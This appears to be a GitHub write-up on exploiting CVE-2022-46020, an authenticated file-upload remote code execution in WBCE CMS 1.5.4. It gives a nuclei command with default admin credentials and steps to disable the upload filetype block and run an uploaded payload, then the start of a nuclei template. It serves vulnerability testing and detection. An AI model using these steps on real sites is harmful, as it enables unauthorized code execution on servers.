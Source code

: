 ```bash
nuclei -u http://192.168.2.160/ -t CVE-2022-46020.yaml -var username=admin -var password=password
```
![nuclei](https://github.com/user-attachments/assets/b590525e-2d0b-4621-b771-f15f233f68b2)


## Exploitation Steps

- After successful login, click on the Settings option from the sidebar.
- On the Settings page, click on Show Advanced Options. Locate the field named No upload for this filetypes.
  
![1](https://github.com/user-attachments/assets/e0c197cd-a8c9-4a0e-b2a2-6ea714fc5119)


- Remove the content from the No upload for this filetypes field. Click Save to apply changes.

![2](https://github.com/user-attachments/assets/a6c848cd-36f0-4e37-bd91-69ee6d700dce)

- Go to the Media section and click the upload button to upload your `payloadfile`

![3](https://github.com/user-attachments/assets/90ddb40c-d881-49cf-b14c-f96376432ff9)

- Now Check upload File.

![4](https://github.com/user-attachments/assets/9464163d-83c0-4899-81da-882f9db5ddd0)

- Visit the uploaded file in your browser.

![5](https://github.com/user-attachments/assets/b9ef6194-4ca2-43e7-a94a-3e526f84e3c8)


## Steps to Write Nuclei Template for CVE-2022-46020 (WBCE CMS v1.5.4 RCE)

####  Variables Section

```yaml
variables:
  username: "admin"
  password: "password"
```

- Defines two variables:
    
    - `username`: The login username (`admin` by default).
        
    - `password`: The login password (`password` by default).
        
- These variables will be reused in authentication requests.
    

####  First Request: Retrieve Login Page

```yaml
- raw:
    - |
      GET /admin/login/index.php HTTP/1.1
      Host: {{Hostname}}
```
